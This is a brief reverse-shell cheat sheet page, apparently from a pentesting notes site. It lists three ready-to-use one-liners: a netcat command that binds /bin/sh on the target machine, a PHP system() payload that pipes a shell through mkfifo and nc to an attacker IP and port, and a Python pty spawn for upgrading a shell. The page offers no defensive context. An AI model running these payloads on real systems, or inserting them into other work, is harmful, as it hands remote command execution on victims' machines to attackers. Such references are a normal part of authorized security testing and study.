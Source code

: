 ```yaml
---
id: reverse_shell
title: ↔ Reverse shell
---
```


# Reverse shell

## nc

Inside the target machine

```sh
nc -lnvvp <port> -e /bin/sh
```

To connect from the attacker machine:

```sh
nc <host> <port>
```

## PHP

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f"); ?>
```

## Python

```py
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
